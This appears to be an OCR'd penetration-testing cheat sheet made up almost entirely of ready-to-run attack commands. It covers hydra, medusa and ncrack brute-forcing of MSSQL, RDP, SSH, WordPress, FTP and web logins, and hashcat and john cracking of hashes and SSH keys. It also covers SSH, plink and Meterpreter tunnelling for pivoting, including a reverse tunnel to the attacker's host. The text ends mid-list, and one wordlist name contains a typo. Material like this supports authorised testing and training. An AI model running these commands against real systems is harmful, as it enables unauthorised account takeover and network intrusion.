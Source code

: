 ## Brute Forcing
	
MSSQL

	hydra -l sa -P /usr/share/wordlists/rockyou.txt IPADDRESS mssql

	medusa -h IPADDRESS -u sa -P /usr/share/wordlists/rockyou.txt -e nsr -m mssql -nPORTNUMBER
	
RDP

	ncrack -u administrator -P /usr/share/wordlists/rockyou.txt -p 3389 IPADDRESS
	
SSH

	hydra -l root -P /usr/share/wordlists/rockyou.txt IPADDRESS ssh

	medusa -h IPADDRESS -u root -P /usr/share/wordlists/rockyou.txt -e nsr -m ssh
	
Word Press

	hydra -l admin -P /usr/share/wordlists/rockyou.txt IPADDRESS http-post-form"/wp-login.php:log=^USER^&pwd=^PASS^:S=Location\:.*/wp-admin/" -e nsr
	
FTP 

	hydra -l admin -P /usr/share/wordlists/rockyout.txt IPADDRESS -e nsr ftp 
	
HTTP POST

	hydra -l admin -P /usr/share/wordlists/rockyou.txt IPADDRESS http-post-form "/login.php:username=^USER^&password=^PASS^:FAILMESSAGE" -e nsr


## Password Cracking
	
	hashcat -m 1800 -a 0 -o hashes.txt --remove hashes.txt rockyou.txt
	
Identify hashes

	hash-identifier

SSH passphrase

	ssh2john id_rsa  > sshtocrack
	john --wordlist=/usr/share/wordlists/rockyou.txt sshtocrack
		
## SSH tunnels and Port Forwarding
	
Port forward with plink on Windows

	plink.exe -l root -R 445:127.0.0.1:445 YOURIPADDRESS
	
Meterpreter port forward

	portfwd add -l 9090 -p 9090 -r TARGETIP 
	
create dynamic ssh tunnel over port for use with proxychains

	ssh -f -N -D 8080 root@IPADDRESS
	
Proxychains to open up another SSH tunnel through pivot machine hopping
